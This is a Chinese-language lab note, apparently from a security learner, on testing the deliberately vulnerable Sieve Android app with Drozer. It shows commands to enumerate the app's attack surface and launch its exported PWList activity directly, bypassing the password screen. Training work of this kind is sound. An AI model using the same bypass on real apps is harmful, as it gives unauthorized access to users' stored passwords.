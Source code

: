 ```yaml
---
title: Test Sieve - activities exported
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer > Test Sieve"
---
```


* Drozer Seive - [官網](https://labs.withsecure.com/tools/drozer#3.1), [Download](https://github.com/WithSecureLabs/drozer/releases/download/2.3.4/sieve.apk)
    > Sieve is a small password manager app created to showcase some of the common vulnerabilities found in Android applications.
    
# Test Sieve - activities exported
參考[^csdn-sieve-1][^hacktricks-diva-sieve]，在測試之前要先點進去Sieve App中設定password和email之類的基本資訊，這樣之後測試才知道哪邊其實是漏洞
1. 起手式-確認基本資訊
    ```bash!
    dz> run app.package.list -f Sieve # 確認該App的package name
    Attempting to run shell module
    com.mwr.example.sieve (Sieve)
    
    dz> run app.package.info -a com.mwr.example.sieve # 確認該App的基本資訊
    Attempting to run shell module
    Package: com.mwr.example.sieve
      Application Label: Sieve
      Process Name: com.mwr.example.sieve
      Version: 1.0
      Data Directory: /data/user/0/com.mwr.example.sieve
      APK Path: /data/app/~~_mRnxjv10ez6OXDQWBrRZw==/com.mwr.example.sieve-yL301IHv87w7debjGy21vA==/base.apk
      UID: 10285
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - com.mwr.example.sieve.READ_KEYS
      - com.mwr.example.sieve.WRITE_KEYS
      
    dz> run app.package.manifest com.mwr.example.sieve # 確認該App的manifest有沒有什麼異常或漏洞的提示
    ...
    
    dz> run app.package.attacksurface com.mwr.example.sieve # 確認該App的攻擊面有哪些
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      2 content providers exported
      2 services exported
        is debuggable
    ```
    看攻擊面的左邊就是該攻擊點有幾個
2. activities exported
    1. 列出exported activities有哪些
        ```bash
        dz> run app.activity.info -a com.mwr.example.sieve
        Attempting to run shell module
        Package: com.mwr.example.sieve
          com.mwr.example.sieve.FileSelectActivity
            Permission: null
          com.mwr.example.sieve.MainLoginActivity
            Permission: null
          com.mwr.example.sieve.PWList
            Permission: null
        ```
    2. 啟動activity
        ```bash
        dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
        ```
        此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
        ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)
# Reference
[^csdn-sieve-1]:[drozer之玩轉sieve](https://blog.csdn.net/samlirongsheng/article/details/104926282)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)